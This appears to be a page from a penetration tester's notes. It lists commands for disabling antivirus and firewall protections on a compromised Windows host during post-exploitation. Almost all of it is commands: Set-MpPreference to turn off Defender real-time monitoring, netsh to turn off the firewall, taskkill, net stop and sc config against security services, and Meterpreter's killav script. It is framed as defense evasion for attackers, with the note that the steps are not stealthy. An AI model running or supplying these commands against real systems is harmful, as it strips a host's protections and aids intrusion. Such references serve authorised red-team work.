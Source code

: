 ```yaml
---
description: >-
  Commands to disable antivirus to make post exploitation eaiser. Please note
  that these should not be considered OPSEC safe.
---
```


# Disable Antivirus

## Disable real-time monitoring for Windows Defender

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## Disable Windows Firewall

```powershell
netsh advfirewall set allprofiles state off
```

## Manually Disable Antivirus

```powershell
Taskkill /F /IM avprocess.exe
```

## Stop an Antivirus Service

```powershell
net stop “service name”
```

## Disable a Windows Service

```powershell
sc config "service name" start= disabled
```

## Meterpreter Killav

Meterpreter has a built-in script that will attempt to kill any antivirus identified on the device. I've had mixed results with this but if you're not trying to be quiet then this is sometimes an easy win:

```bash
run killav
```

## Disable AntiVirus via the GUI

I haven't seen this in quite a bit. However, non-administrative users are sometimes able to disable the antivirus running on the host via a GUI interface. If the target has one of these then you can either right click the icon in the task bar and disable it or manually open the GUI and disable it in settings.
